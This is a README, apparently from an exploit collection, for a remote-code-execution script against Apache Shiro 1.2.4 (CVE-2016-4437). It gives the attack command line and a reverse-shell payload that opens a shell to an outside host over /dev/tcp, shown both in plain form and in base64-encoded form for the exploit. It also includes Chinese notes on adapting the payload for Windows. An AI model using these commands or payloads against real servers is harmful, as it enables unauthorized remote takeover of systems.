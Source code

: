 # Readme
Apache Shiro 


<details>
<summary>Shiro 1.2.4 [点击展开] </summary>
  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

脚本内置了base64编码，但是仅适配Linux，如果测试Windows手动删除base64加密部分即可  
也可以前往以下连接手动base64加密  
http://www.jackson-t.ca/runtime-exec-payloads.html
Original: 
```
bash -i >&/dev/tcp/1.1.1.1/233 0>&1     
```

Encoding：
```
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}
```

</details>

利用示例：  
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/1.gif)
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/2.gif)
